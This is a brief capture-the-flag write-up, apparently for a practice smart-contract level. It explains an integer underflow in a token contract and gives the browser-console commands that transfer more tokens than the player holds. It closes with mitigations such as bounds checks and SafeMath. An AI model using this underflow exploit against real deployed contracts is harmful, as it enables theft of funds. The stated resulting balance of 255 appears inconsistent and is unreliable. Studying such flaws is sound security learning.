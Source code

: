 This contract is susceptible to overflow and underflow attacks.

There is no condition/safemath functions/check before performing addition and subtraction.

Therfore to expoit this contract I need to transfer more tokens than I have.

Find out how many tokens I have. 
```await contract.balanceOf(player)```

We have 20. So transfer 21 or more tokens to any address.
```await contract.transfer('0x69F1977310B0c02248D631671AF7211E2e175937', 21)```

Check balance again as the underflow should set our balance to 255.
```await contract.balanceOf(player)```

Easy to avoid over/underflow exploits by using a condition such as:
```
if(a + c > a) {
  a = a + c;
}
```
Or OpenZeppelin SafeMath lib:
```
a = a.add(c);
```